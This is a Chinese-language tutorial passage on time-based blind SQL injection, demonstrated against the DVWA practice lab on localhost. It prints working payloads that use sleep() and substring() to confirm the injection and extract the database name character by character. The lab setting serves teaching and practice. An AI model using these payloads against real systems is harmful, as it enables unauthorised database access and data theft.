 观察现象，发现大于1的没有数据，大于10的和正常的输入有数据，且执行大于1的比大于10 的执行时间不同。

**案例**

dvma判断是否可以注入比较简单。

DVWA中 SQL inject Blind 中 low 难度等级，链接：http://localhost/dvwa/vulnerabilities/sqli/

尝试着提交一个正确的语句：输入1

<img src="../images/dvwa_lib/sql_inject_low_bind.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="70px"/>

进行时间注入：

```sql
-- 过5秒后无返回值
1' and if (length(database())>1, sleep(5), 1); #';
```

<img src="../images/dvwa_lib/sql_inject_low_bind_time.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="60px"/>

这样可能是因为执行被拦截，所以执行不了，这里修改一下语句，继续执行

```sql
--如果条成功，则过5秒再执行，并返回1
1' and if (length(database())>1, 1, sleep(5)); #';
```

<img src="../images/dvwa_lib/sql_inject_low_bind.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="70px"/>

说明注入成功。

但是因为数据不显示，如何进行信息截取和获取root权限呢？？？？

首先一大问题就是获取数据库权限，怎么知道当前注入点的用户的具体情况？

提供一种解决办法：用暴力

```sql
-- 利用substring方法进行分割字符，一个个拆解
1' and if (substring(database(), 1, 1)='d', 1, sleep(5)); #';
```

其他也是这样，会发现时间的延迟成了注入是否成功的，这就时间注入。


